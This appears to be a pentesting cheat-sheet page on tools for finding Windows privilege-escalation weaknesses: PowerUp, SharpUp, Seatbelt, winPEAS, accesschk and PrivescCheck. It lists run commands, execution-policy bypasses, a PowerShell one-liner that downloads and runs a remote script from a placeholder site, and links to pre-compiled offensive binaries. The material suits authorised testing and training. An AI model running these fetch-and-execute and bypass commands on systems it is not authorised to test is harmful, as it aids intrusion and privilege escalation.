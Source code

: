 # 👨💻 Automated Enumeration Scripts

### Power Up:

```bash
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
```

To run PowerUp, start a PowerShell session and **use dot sourcing to load the script:**

```batch
CMD> powershell -exec bypass
# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

### **SharpUp: (If Powershell is not available)** <a href="#sharpup-if-powershell-is-not-available" id="sharpup-if-powershell-is-not-available"></a>

PowerUp & SharpUp are very similar tools that hunt for specific privilege escalation misconfigurations.

```batch
# Code: https://github.com/GhostPack/SharpUp
# Pre-Copiled: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe
```

To run SharpUp, start a command prompt and run the executable:

```batch
.\SharpUp.exe
```

## Seatbelt&#x20;

Seatbelt is an enumeration tool. It contains a number of enumeration checks.

It does not actively hunt for privilege escalation misconfigurations, but provides related information for further investigation.

```
# Code: https://github.com/GhostPack/Seatbelt

# Pre-Compiled: https://github.com/r3motecontrol/Ghostpa-CompiledBinaries/blob/master/Seatbelt.exe
```

To run **all checks** and filter out unimportant results:&#x20;

```
.\Seatbelt.exe all
```

To run **specific check(s):**

```
.\Seatbelt.exe <check> <check>
```

## winPEAS

winPEAS is a very powerful tool that not only actively hunts for privilege escalation misconfigurations, but highlights them for the user in the results.

```
# Code: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
```

Before running, we need to add a registry key and then reopen the command prompt:

```batch
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```batch
.\winPEASany.exe quiet cmd fastch
```

Run specific check categories:

```batch
.\winPEASany.exe quiet cmd systeminfo
```

## accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```batch
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```batch
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```batch
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

## PrivescCheck

This script aims to **enumerate common Windows configuration issues** that can be leveraged for local privilege escalation. It also **gathers various information** that might be useful for **exploitation** and/or **post-exploitation**.\


```powershell
C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
# From cmd

PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\Temp\> . .\PrivescCheck.ps1; Invoke-PrivescCheck
# From powershell

C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
# By default, the scope is limited to vulnerability discovery but, you can get a lot more information with the -Extended option
```

